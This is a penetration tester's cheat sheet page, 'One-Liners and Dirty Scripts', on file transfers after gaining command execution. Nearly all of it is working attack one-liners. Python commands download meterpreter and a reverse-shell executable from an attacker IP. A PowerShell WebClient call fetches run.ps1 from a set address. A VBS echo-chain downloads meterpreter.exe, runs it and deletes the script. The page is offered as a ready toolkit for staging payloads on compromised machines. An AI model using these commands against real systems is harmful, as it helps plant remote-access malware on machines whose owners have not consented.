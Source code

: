 ```yaml
---
description: They don't have to be elegant, they just have to get the job done.
---
```


# One-Liners and Dirty Scripts

If I use it and it's not here, it's probably over here: [https://github.com/burmat/burmatscripts](https://github.com/burmat/burmatscripts)

## FILE TRANSFERS

### Python HTTP File Download

If you have remote command execution on a box with python - something like this should do the trick:

`python -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/meterpreter', '/tmp/meterpreter');"`

or if it is a Windows box, it's not much different:

`C:\Python2.7\python.exe -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/rs_powershell.exe', '/temp/rs_powershell.exe');"`

### BITS Download

{% code overflow="wrap" %}
```powershell
Start-BitsTransfer -Source $URL -Destination $Path
```
{% endcode %}

### PowerShell Download with Custom HTTP Headers

{% code overflow="wrap" %}
```powershell
$wc = new-object system.net.WebClient;
$wc.Headers.Add('User-Agent', "This is my agent, there is no one like it...") ;
$wc.DownloadString("http://192.168.119.120/run.ps1");
```
{% endcode %}

### VBS HTTP File Download

I got stuck with a borked up reverse shell on a Windows system with no file transfer methods and no modern scripting options. I scraped together the following one-liner to dump into my shell to get my payload over by writing a VBS script with echo statements to issue the download:

`echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"`
